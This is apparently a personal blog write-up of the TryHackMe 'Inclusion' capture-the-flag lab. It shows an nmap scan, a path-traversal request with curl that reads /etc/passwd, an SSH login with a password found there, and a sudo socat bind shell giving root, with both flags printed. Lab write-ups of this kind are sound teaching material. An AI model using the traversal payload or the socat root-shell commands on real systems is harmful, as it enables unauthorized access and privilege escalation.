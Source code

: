 ```yaml
---
title: "Inclusion"
date: 2020-03-16T18:42:36+01:00
draft: true
tags: ["ctf", "tryhackme", "LFI", "socat"]
---
```


Hi guys, after long time I have 5 minutes for playing game, so let's play.
I see new game called __Inclusion__ with describe __A beginner level LFI challenge__.
Yes, this is something I want to play and have been done quick.

So I am starting VPN tunnel to our playground and click on magic button __Deploy machine__.

As always first scan ports opened on the machine.
```bash
$ nmap -T4 -sV 10.10.131.100 --top 100                              
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 18:30 CET   
Nmap scan report for 10.10.131.100     
Host is up (0.15s latency).                                                                                                                                   
Not shown: 98 closed ports                                                     
PORT   STATE SERVICE VERSION                                                   
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                                                               
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                
Nmap done: 1 IP address (1 host up) scanned in 9.86 seconds         
```

Okay, so some default ports opened. Open the browser, read the articles, we can see, that there is only one parameter
called __name__ of article.

```bash
GET /article?name=lfiattack
...
Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.



http://example.com/?file=../../../../etc/passwd
...
```

Okey, so at first we can try the version of LFI in the example. Let's use CLI

```bash
$ curl 'http://10.10.131.100/article?name=../../../../etc/passwd'
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
...
```

It looks like we have password in the comment of the file __/etc/passwd__
- #falconfeast:rootpassword

so let's use __ssh__ with the gained username/password

```bash
$ ssh falconfeast@10.10.131.100                                                                                                                   
The authenticity of host '10.10.131.100 (10.10.131.100)' can't be established.                                                                                
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.                                                                                  
Are you sure you want to continue connecting (yes/no)? yes                                                                                                    
Warning: Permanently added '10.10.131.100' (ECDSA) to the list of known hosts.
rfalconfeast@10.10.131.100's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Mar 16 23:06:55 IST 2020

  System load:  0.01              Processes:           84
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 64%               IP address for eth0: 10.10.131.100
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
$ falconfeast@inclusion:~$ ls
articles  user.txt
$ falconfeast@inclusion:~$ cat user.txt 
60989655118397345799
```

In falconfeast's homedir we can find the __user.txt__ file with the flag
__user flag__
- 60989655118397345799

but how to get the __root flag__?
let's look for options

```bash
$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Okay, we can run __socat__ under root priviledges without password. That's enough for us.

- On remote machine
```bash
$ sudo socat TCP-LISTEN:1111,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
```

- On local machine
```bash
$ socat FILE:`tty`,raw,echo=0 TCP:10.10.131.100:1111
sh: 0: can't access tty; job control turned off
# pwd
/home/falconfeast
# cd /root
# ls
root.txt
# cat root.txt
42964104845495153909
```

Ou yeah, we have root priviledges! :)
__root flag__
- 42964104845495153909

[socat](https://linux.die.net/man/1/socat) is really strong network utility, I recommend to read more about it.
Have a another nice day with COVID-19.
bye;)
